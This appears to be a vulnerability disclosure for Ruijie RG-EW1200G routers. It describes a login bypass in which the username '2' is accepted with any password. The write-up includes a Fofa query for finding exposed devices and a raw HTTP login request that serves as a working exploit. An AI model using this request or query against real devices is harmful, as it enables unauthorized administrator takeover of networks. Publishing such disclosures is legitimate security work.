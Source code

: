# Information

Vendor of the products:Ruijie Networks

Vendor's website:https://www.ruijienetworks.com

Affected products:RG-EW1200G Wireless Routers

Affected firmware version: HWR_1.0(1)B1P5,Release(07161417) r483

Fofa query rule: "锐捷" && port="6060"

# Overview

Ruijie networks RG-EW1200G HWR_1.0(1)B1P5,Release(07161417) r483 has a login bypass logic vulnerability, allowing any user to gain device administrator privileges without a password. Log in to the router, obtain sensitive information, and control the internal network.

# Vulnerability details

![Alt text](pics/1.png)

Unauthorized users can use Account 2 to log into the device with any password.

Use Burp Suite to intercept login packets and modify the username to "2". Any password can be used.
![Alt text](pics/2.png)

```
POST /api/sys/login HTTP/1.1
Host: xx.xx.xx.xx:6060
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en;q=0.3,en-US;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: http://xx.xx.xx.xx:6060
DNT: 1
Connection: close
Referer: http://xx.xx.xx.xx:6060/

{"username":"2","password":"abcdefgeeee","timestamp":1691420513000}
```

![Alt text](pics/3.png)

Successfully gained administrator privileges.
